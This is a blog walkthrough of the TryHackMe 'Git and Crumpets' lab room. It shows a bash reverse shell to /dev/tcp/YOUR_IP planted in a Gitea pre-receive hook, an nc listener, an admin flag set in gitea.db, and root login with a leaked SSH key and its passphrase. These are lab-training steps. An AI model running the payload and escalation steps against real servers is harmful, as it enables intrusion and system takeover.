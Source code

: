 ```yaml
---
title: TryHackMe Gitandcrumpets
date: 2021-07-04T23:04:02+05:30
lastmod: 2021-07-04T23:04:02+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/thm.gif

categories:
  - TryHackMe
tags:
  - tryhackme
  - rooms
  - thm
  - gitandcrumpets

draft: false
description: TryHackMe Room Git and Crumpets solved by Animesh Roy. this is a walkthough. read more...

---
```

## Git and Crumpets

Our devs have been clamoring for some centralized version control, so the admin came through. Rumour has it that they included a few countermeasures...

## Task 01:  Start the VM

---

## Task 02: Git the flags

## user

* I tried running nmap, no luck
  
* being impatatient, I ran a quick curl commnad `curl -s 10.10.x.y` to see what's up. 
  
  ![img](https://i.imgur.com/tpxQmLf.png)

  got this output.

* let's setup **DNS** record, edit `/etc/hosts` file.
  
  ```bash
  cat /etc/hosts
  10.10.x.y   git.git-and-crumpets.thm
  # it should do the work.
  ```

* register a new account

* git clone the repo
  
  * Add git.git-and-crumpets.thm to the file /etc/hosts.
  * Visit http://git.git-and-crumpets.thm/ and register.
  * Explore repos @ http://git.git-and-crumpets.thm/explore/repos.
  * Look at commits of the repo cant-touch-this
  
  ```bash
  git clone http://git.git-and-crumpets.thm/scones/cant-touch-this.git
  # use the creds to authenticate yourself
  ```

* cd to the `repo-dir` run `git log`, it reavels that password is somewhere in "Avatar" a quick `strings` commmand reaveals the password. let's use the creds to login in to `scones` account.
  
  ![img](https://i.imgur.com/WzxHBwh.png)

  let's try loggin in with the email `withcream@example.com` and the password `Password`.

  Create a git hook (http://git.git-and-crumpets.thm/scones/cant-touch-this/settings/hooks/git).
  You can edit the pre-receive to following code, or create your own listener [here](https://shell.anir0y.in)

  * Payload
  
  ```bash
  #!/bin/bash
  bash -i >& /dev/tcp/YOUR_IP/9001 0>&1 #change IP
  ```

  * Start nc listener on our machine

     ```bash
     nc -lvnp 9001
     ```

* Now change the readme file (http://git.git-and-crumpets.thm/scones/cant-touch-this/_edit/master/README.md) and click save. You should get a reverse shell:
  
  ```bash
  nc -lvnp 9001                                                            127 ⨯
  listening on [any] 9001 ...
  connect to [10.17.4.40] from (UNKNOWN) [10.10.219.59] 58472
  bash: cannot set terminal process group (886): Inappropriate ioctl for device
  bash: no job control in this shell
  [git@git-and-crumpets cant-touch-this.git]$ cat /home/git/user.txt #returns base64 encoded flag. decode it 
  ```

  **Decode the flag**

  ```bash
  echo -n "EncodedText==" | base64 -d 
  ```

---
<!-- Google Ads -->
<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->

---

## ROOT

* Look at the gitea database, update the current user you have to admin:

     ```bash
     [git@git-and-crumpets tmp]$ sqlite3 /var/lib/gitea/data/gitea.db
     update user set is_admin=1 where id=3;
     #if you didn't upgrade your shell, it might show blank line. don't worry about it
     ```
* Now you can see all repos on the scones account (http://git.git-and-crumpets.thm/admin/repos).

* Go to the backup repo, to the second branch, look at the commits (http://git.git-and-crumpets.thm/root/backup/commits/branch/dotfiles).

* There you will find the openssh key (http://git.git-and-crumpets.thm/root/backup/commit/0b23539d97978fc83b763ef8a4b3882d16e71d32):
  
  ![img](https://i.imgur.com/CSq90PE.png)

* Copy the COntent of SSH key
  
     ```bash
     -----BEGIN OPENSSH PRIVATE KEY-----
     b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCiDnis8h
     K3kgcH6yJEnGngAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQCwF1w1EjRq
     ...[SNIP]...
     f+V62ikG7042lp/fhTYiDgRfvXA=
     -----END OPENSSH PRIVATE KEY-----
     ```

* Copy this key and put it in the file root.key (dont forget chmod):

     ```bash
     vi root.key #paste the key
     chmod 400 root.key #My file name is root.key
     ```

* now login & get the root flag
  
     ```bash
     ssh -i root.key root@10.10.219.59
     The authenticity of host '10.10.219.59 (10.10.219.59)' can't be established.
     ECDSA key fingerprint is SHA256:Tm4zUvVK5KsvOsFB2xvRHK4yg58piyOwURqB1Zr2tXI.
     Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
     Warning: Permanently added '10.10.219.59' (ECDSA) to the list of known hosts.
     Enter passphrase for key 'root.key': #SSH_FILE_NAME {Sup3rS3cur3: is the password}
     [root@git-and-crumpets ~]# cat root.txt 
     encodedFlagData==
     ```

* **Decode the flag**

  ```bash
  echo -n "EncodedText==" | base64 -d 
  ```

---
<!-- Google Ads -->

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<ins class="adsbygoogle"
     style="display:block; text-align:center;"
     data-ad-layout="in-article"
     data-ad-format="fluid"
     data-ad-client="ca-pub-3526678290068011"
     data-ad-slot="7160066188"></ins>
<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
<!-- END -->


<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="anir0y" data-description="Support me on Buy me a coffee!" data-message="" data-color="#5F7FFF" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

<!-- EOF -->
